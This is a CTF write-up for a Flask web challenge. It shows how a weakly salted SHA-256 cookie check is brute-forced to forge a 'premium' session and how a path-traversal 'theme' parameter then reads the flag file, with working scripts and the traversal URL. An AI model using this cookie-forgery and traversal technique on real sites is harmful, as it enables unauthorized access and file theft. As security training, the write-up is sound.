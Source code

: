 # Web - ctf-courses
## Writeup Author: kebabulon

---

### Task

Кто хочет порешать web, прошу

**server.tar.gz**:

```
|-- app.py
|-- Dockerfile
|-- flag.txt
|-- static
|   |-- 1.jpeg
|   |-- garish.css
|   |-- light_mode.css
|   |-- premium.css
|   |-- style.css
|-- templates
    |-- basic.jinja
    |-- login.jinja
    |-- premium.jinja
```

---

## Solution

First of all we need to find where the flag is. Lets check ```Dockerfile```:

```Dockerfile
FROM python

RUN pip install flask gunicorn pyjwt[crypto]
COPY . /app
RUN mkdir /secret-flag-dir; mv /app/flag.txt /secret-flag-dir/flag.txt
WORKDIR /app

EXPOSE 1234

CMD ["gunicorn", "-b", "0.0.0.0:1234", "app:app", "-t", "4"]
```

Flag's path is ```/secret-flag-dir/flag.txt```.

Now, lets check the website. We are presented with a login page:

![login page](assets/images/ctf-courses_1.png)

The main page:

![login page](assets/images/ctf-courses_2.png)

This doesn't really help us. Let's look at ```app.py```:

```py
from flask import Flask, request, render_template, redirect, make_response
from base64 import b64encode, b64decode
import hashlib
import random
import json
import os

app = Flask(__name__)
users = {}


def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()


@app.route('/')
def index():
    if request.cookies.get('data') is None or request.cookies.get('hash') is None:
        return redirect('/login')

    data = request.cookies.get('data')
    decoded = b64decode(data)
    data_hash = request.cookies.get('hash')
    payload = json.loads(decoded)

    if payload['username'] not in users:
        resp = make_response(redirect('/login'))
        resp.set_cookie('data', '', expires=0)
        resp.set_cookie('hash', '', expires=0)
        return resp

    actual_hash = hash(data + users[payload['username']])

    if data_hash != actual_hash:
        return redirect('/login')

    if payload['user_type'] == 'premium':
        theme_name = request.args.get('theme') or 'static/premium.css'
        file_path = os.path.join(os.path.dirname(__file__), theme_name)
        try:
            with open(file_path, 'r') as file:
                theme_content = file.read()
        except FileNotFoundError:
            theme_content = 'static/premium.css'
        return render_template('premium.jinja', theme_to_use=theme_content)
    else:
        return render_template('basic.jinja')


@app.route('/login', methods=['GET'])
def get_login():
    return render_template('login.jinja')


@app.route('/login', methods=['POST'])
def post_login():
    username = request.form['username']

    if username not in users:
        users[username] = hex(random.getrandbits(24))[2:]

    resp = make_response(redirect('/'))
    data = {
        "username": username,
        "user_type": "basic"
    }

    b64data = b64encode(json.dumps(data).encode()).decode('utf-8')
    data_hash = hash(b64data + users[username])
    resp.set_cookie('data', b64data)
    resp.set_cookie('hash', data_hash)
    return resp


if __name__ == '__main__':
    app.run()

```

There are 2 user types: basic and premium. The premium user has access to different themes:

```py
if payload['user_type'] == 'premium':
    theme_name = request.args.get('theme') or 'static/premium.css'
    file_path = os.path.join(os.path.dirname(__file__), theme_name)
    try:
        with open(file_path, 'r') as file:
            theme_content = file.read()
    except FileNotFoundError:
        theme_content = 'static/premium.css'
    return render_template('premium.jinja', theme_to_use=theme_content)
else:
    return render_template('basic.jinja')
```

This can be used to read ```flag.txt```, but we need to somehow change ```user_type``` in the ```data``` cookie to ```premium```.

The ```data``` cookie is base64 encoded, but its salted hash must match with the ```hash``` cookie:

```py
data = request.cookies.get('data')
decoded = b64decode(data)
data_hash = request.cookies.get('hash')
payload = json.loads(decoded)

...

actual_hash = hash(data + users[payload['username']])

if data_hash != actual_hash:
    return redirect('/login')
```

The user's hash is randomly generated.

```py
users[username] = hex(random.getrandbits(24))[2:]
```

There are 16777215 possible salts, lets bruteforce! 

```py
import hashlib

def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()

data = "eyJ1c2VybmFtZSI6ICJrZWIiLCAidXNlcl90eXBlIjogImJhc2ljIn0="
real_hash = "dba862707f3449d26f70eb8da34b31e191d3e3a3f86d2250d97c7597c36a8685"

for i in range(16777216):
    salt = hex(i)[2:]

    hash = hash(data + salt)

    if hash == real_hash:
        print(salt)
        break
```

```
c8edda
```

Well that was pretty quick, lets find our new cookies:

```py
import json
from base64 import b64encode

salt = "c8edda"
data = {
    "username": "keb",
    "user_type": "premium"
}

b64data = b64encode(json.dumps(data).encode()).decode('utf-8')

print(b64data) # data
print(hash(b64data + salt)) # hash
```

```
eyJ1c2VybmFtZSI6ICJrZWIiLCAidXNlcl90eXBlIjogInByZW1pdW0ifQ==
cff0797f65c1a86465edbd1f4cd83c495f3adaef4f6aa82ce2d8048d2850ff48
```

And we get the premium page:

![login page](assets/images/ctf-courses_3.png)

As I said earlier, we can use the ```theme``` parameter to access the flag:

```
http://46.188.104.214:1234/?theme=../secret-flag-dir/flag.txt
```

```html
<!DOCTYPE html>
<html lang="ru">
<style> flag{rate_our_courses_from_1_to_10}
 </style>
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Курсы CTF!</title>
</head>
<body>
  <p class="title">Добро пожаловать на сайт!<p>
  <p>Теперь у вас есть возможность использовать темы! Попробуйте одну из нижеуказанных тем:</p>
  <a href='/?theme=static/premium.css'>по умолчанию</a>  <a href='/?theme=static/light_mode.css'>светлый</a>  <a href='/?theme=static/garish.css'>яркий</a>
  <p>Из-за проблем в поставках, мы не можем предоставить вам наши курсы... Извините, и спасибо за поддержку сайта!</p>
</body>
</html>
```

This was pretty fun!

---

### Flag

```
flag{rate_our_courses_from_1_to_10}
```
